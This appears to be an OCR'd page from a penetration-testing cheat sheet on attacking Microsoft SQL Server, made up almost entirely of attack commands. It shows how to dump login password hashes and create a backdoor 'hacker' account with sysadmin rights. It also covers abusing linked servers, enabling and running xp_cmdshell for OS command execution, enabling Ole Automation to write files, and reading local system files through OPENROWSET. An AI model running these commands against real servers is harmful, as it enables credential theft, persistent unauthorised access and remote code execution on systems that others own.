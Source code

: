 ```bash
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

#Enumerate links
enum_links
#Use a link
use_link [NAME]

# Execute commands (if enabled)
xp_cmdshell "whoami"
# Enable xp_cmdshell (with appropriate privileges) impacket:
enable_xp_cmdshell
# Enable from Windows:
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

#### Exploit

- **Write**

  To write files, [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) must be enabled:

  ```bash
  # Enable Ole to write files
  sp_configure 'show advanced options', 1
  RECONFIGURE
  sp_configure 'Ole Automation Procedures', 1
  RECONFIGURE
  ```

  - [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), 

  - [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), 
  - [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15),
  -  [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). 

- **Read Local files**

  ```bash
  SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
  ```
